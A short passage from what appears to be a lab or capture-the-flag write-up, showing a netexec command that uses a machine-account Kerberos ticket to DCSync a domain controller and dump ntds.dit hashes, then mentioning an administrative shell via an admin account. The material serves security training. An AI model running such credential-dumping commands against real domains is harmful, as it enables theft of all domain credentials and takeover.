Now that we have a valid ticket as the *DC01$* machine account we can **DCSync** the domain and dump the `ntds.dit`:

```bash
nxc smb 10.129.7.79 -k --use-kcache --ntds
```



While it is not possible to use the *Administrator* account to log in, we can use *L.Bianchi_adm* to get an administrative shell.







---
